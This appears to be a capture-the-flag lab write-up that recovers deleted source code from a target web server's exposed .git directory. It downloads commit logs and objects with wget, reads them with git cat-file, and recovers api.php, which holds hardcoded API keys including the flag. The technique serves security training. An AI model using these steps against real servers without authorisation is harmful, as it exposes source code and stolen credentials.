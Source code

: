 ### Reflecting remote files and folders using local Git repository
https://github.com/bl4de/research/tree/master/hidden_directories_leaks#git

### Create dummy Git folder

```
$ git init
```


### Download the git log from the site.
`$ wget http://10.10.X.X/.git/logs/HEAD` 
`$ cat HEAD`
![[head.png]]

#### 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Object
79 = Directory
c9539b6566b06d6dec2755fdf58f5f9ec8822f = Object

The developer removed the sensitive data on the object **b2f776a52fe81a731c6c0fa896e7f9548aafceab**. 
`79c9539b6566b06d6dec2755fdf58f5f9ec8822f b2f776a52fe81a731c6c0fa896e7f9548aafceab Context Information Security <recruitment@contextis.com> 1568122860 +0100 commit: removed sensitive data`


You can find the sensitive data in the object **79c9539b6566b06d6dec2755fdf58f5f9ec8822f**.
`93bab0a450caaa8c4d2632703636eccc69062bb4 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Context Information Security <recruitment@contextis.com> 1568122828 +0100 commit: added basic prototype of api gateway`


### Extract the object from the target machine
- Create a directory called 79 into the **objects** dir.
- Download the "c9539b6566b06d6dec2755fdf58f5f9ec8822f" file to 79 dir.

```
$ mkdir 79
$ cd 79
$ wget http://10.10.X.X/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f
```
### Read the content of the tree object 1
```
$ cd 79
$ git cat-file -p 79c9539b6566b06d6dec2755fdf58f5f9ec8822f
```
> tree **51d63292792fb7f97728cd3dcaac3ef364f374ba**
> parent 93bab0a450caaa8c4d2632703636eccc69062bb4
> author Context Information Security <recruitment@contextis.com> 1568122828 +0100
> committer Context Information Security <recruitment@contextis.com> 1568122828 +0100

You got a tree **object 51d63292792fb7f97728cd3dcaac3ef364f374ba**
- Create a directory called 51 into the **objects** dir.
- Download the "51d63292792fb7f97728cd3dcaac3ef364f374ba" file to 51 dir.
```
$ mkdir 51
$ cd 51
$ wget http://10.10.X.X/.git/objects/51/d63292792fb7f97728cd3dcaac3ef364f374ba
```

### Read the content of the tree object 2
```
$ cd 51
$ git cat-file -p 51d63292792fb7f97728cd3dcaac3ef364f374ba
```

> 100644 blob 2229eb414d7945688b90d7cd0a786fd888bcc6a4    api.php
> 100644 blob 9eb9f94f73113d785e65c7e3ec0cba54e0b7cf43    functions.php
> 100644 blob 2a116a56a6e31ef1836796936dbc05af1f986a26    home.php
> 100755 blob 470cac65fcd0f8556f13997957a331628482aa96    index.html
> 100644 blob 4f4ced90fcad774ca4f9f966dbb227ebe7f77a83    index.php
> 100644 blob 6480abf34a54d3055b437766be872a13bcebdf7d    info.php

The sensitive data is stored inside api.php or object **2229eb414d7945688b90d7cd0a786fd888bcc6a4**.

- Create a directory called 22 into the **objects** dir.
- Download the "29eb414d7945688b90d7cd0a786fd888bcc6a4" file to 22 dir.

```
$ mkdir 22
$ cd 22
$ wget http://10.10.X.X/.git/objects/2229eb414d7945688b90d7cd0a786fd888bcc6a4
```

### Read the content of the tree object 3
```
$ cd 22
$ git cat-file -p 2229eb414d7945688b90d7cd0a786fd888bcc6a4
```

```
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "**GITtFi80llzs4TxqMWtCotiTZpf0HC**"))
{
    die("Invalid API key");
}

if (!isset($_GET['documentid']))
{
    die("Invalid document ID");
}

/*
if (!isset($_GET['newname']) || $_GET['newname'] == "")
{
    die("invalid document name");
}
*/

$conn = setup_db_connection();

//UpdateDocumentName($conn, $_GET['documentid'], $_GET['newname']);

$docDetails = GetDocumentDetails($conn, $_GET['documentid']);
if ($docDetails !== null)
{
    //print_r($docDetails);
    echo ("Document ID: ".$docDetails['documentid']."<br />");
    echo ("Document Name: ".$docDetails['documentname']."<br />");
    echo ("Document Location: ".$docDetails['location']."<br />");
}

?>                                                                                                                                                                           
```

The GIT flag is **GITtFi80llzs4TxqMWtCotiTZpf0HC**.